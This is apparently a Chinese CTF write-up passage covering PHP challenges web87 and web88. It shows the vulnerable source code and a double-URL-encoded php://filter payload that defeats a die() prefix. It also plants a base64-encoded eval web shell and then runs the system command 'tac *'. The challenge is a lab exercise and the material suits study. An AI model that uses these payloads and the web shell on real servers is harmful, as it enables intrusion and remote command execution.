 ```
    $file = str_replace("php", "???", $file);  //  php伪协议被ban
    $file = str_replace("data", "???", $file);  // data协议被ban
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

```
file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%32%25%36%66%25%37%34%25%33%31%25%33%33%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%32%25%32%65%25%37%30%25%36%38%25%37%30
//?file=php://filter/string.rot13/resource=2.php
```

```
post
content=aaPD9waHAgZXZhbCgkX1BPU1RbSF0pOz8+    //<?php eval($_POST[H]);?>
```

> content的值前面要加两个字符，因为base64算法解码时是4个byte一组，前面还剩phpdie 6个字符，所以给他增加2个字符 一共8个字符

然后命令执行

```
H=system('tac *');
```

# web88

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){  // 过滤了这些,但是没有过滤:
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```
